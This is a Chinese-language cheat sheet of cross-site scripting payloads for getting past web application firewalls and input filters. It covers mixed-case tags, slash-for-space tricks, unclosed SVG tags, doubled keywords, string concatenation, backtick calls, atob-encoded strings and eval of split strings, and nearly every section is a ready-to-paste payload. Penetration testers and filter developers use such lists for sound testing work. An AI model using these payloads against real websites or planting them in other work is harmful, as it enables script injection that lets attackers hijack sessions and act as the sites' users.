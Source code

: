 #### 过滤空格,用 / 代替空格
```js
<img/src="x"/onerror=alert("xss");>
```

#### 过滤关键字,大小写绕过
```html
<ImG sRc=x onerRor=alert("xss");>
<scRiPt>alert(1);</scrIPt>
```

#### 不闭合
```js
<svg onload="alert(1)"
```

#### 拼接
```js
<details open ontoggle=top['al'%2B'ert'](1) >
```

#### 双写关键字

有些 waf 可能会只替换一次且是替换为空,这种情况下我们可以考虑双写关键字绕过
```js
<imimgg srsrcc=x onerror=alert("xss");>
```

#### 替换绕过

过滤 eval 用 Function 代替
```
❌ eval(alert('xss'))
✔ Function(alert('xss'))
```

过滤 ('') 用 `` 代替绕过
```
❌ alert('xss')
✔ alert`xss`
```

过滤 alert 用 prompt,confirm,top['alert'](1) 代替绕过
过滤空格 用 %0a(换行符),%0d(回车符),/**/ 代替绕过
小写转大写情况下 字符 ſ 大写后为 S(ſ 不等于 s)

#### 利用 atob 绕过

```
❌ (alert('xss'))
✔ atob("YWxlcnQoInhzcyIp")
```

#### 利用 eval

```js
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

